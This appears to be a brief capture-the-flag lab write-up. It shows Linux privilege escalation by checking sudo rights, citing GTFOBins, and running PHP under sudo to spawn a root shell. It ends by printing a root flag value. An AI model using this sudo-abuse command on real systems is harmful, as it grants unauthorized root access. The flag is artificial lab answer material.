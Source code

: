 ```sh
sudo -l
```
![[Pasted image 20240606102449.png]]

```url
https://gtfobins.github.io/gtfobins/php/
```
![[Pasted image 20240606102523.png]]
```sh
CMD="/bin/sh"
sudo php -r "system('$CMD');"
```
![[Pasted image 20240606102918.png]]
![[Pasted image 20240606103608.png]]
>[!FLAG]
>cat root.txt
f1fba6e9f71efb2630e6e34da6387842
